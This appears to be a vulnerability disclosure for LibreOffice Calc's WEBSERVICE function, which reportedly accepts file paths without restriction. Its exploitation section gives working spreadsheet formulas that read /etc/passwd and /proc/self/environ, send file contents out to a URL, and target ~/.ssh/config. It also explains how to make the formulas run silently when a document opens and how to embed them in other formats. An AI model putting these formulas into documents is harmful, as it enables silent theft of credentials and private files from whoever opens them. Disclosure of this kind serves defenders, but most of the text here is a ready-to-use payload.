 # Vulnerability description

## First part

LibreOffice supports COM.MICROSOFT.WEBSERVICE function:

    https://support.office.com/en-us/article/webservice-function-0546a35a-ecc6-4739-aed7-c0b7ce1562c4

The function is required to obtain data by URL, usually used as:

    =FILTERXML(WEBSERVICE("http://api.openweathermap.org/data/2.5/forecast?q=Copenhagen,dk&mode=xml&units=metric");"number(/weatherdata/forecast/time[2]/temperature/@value)")

In original:

    For protocols that are not supported, such as ftp: // or file: //, WEBSERVICE returns the #VALUE! error value.

In LibreOffice, these restrictions are not implemented.

## Second part

By default the cells are not updated, but if you specify the cell type like ~error, then the cell will be updated when you open document.

# Exploitation

To read file you need just:

    =WEBSERVICE("/etc/passwd")

This function can also be used to send a file:

    =WEBSERVICE("http://localhost:6000/?q=" & WEBSERVICE("/etc/passwd"))

For successful operation, you need to send the files of the current user, so you need to retrieve current user home path.

    =MID(WEBSERVICE("/proc/self/environ"), FIND("USER=", WEBSERVICE("/proc/self/environ")) + 5, SEARCH(CHAR(0), WEBSERVICE("/proc/self/environ"), FIND("USER=", WEBSERVICE("/proc/self/environ")))-FIND("USER=",

Also you can parse other files too, like a ~/.ssh/config or something like that.

For other than LibreOffice Calc formats you just need embed calc object to other document (I checked it works).

# Impact

It is easy to send any files with keys, passwords and anything else. 100% success rate, absolutely silent, support all modern versions of LibreOffice and may be embedded in almost all formats supporting by LO.
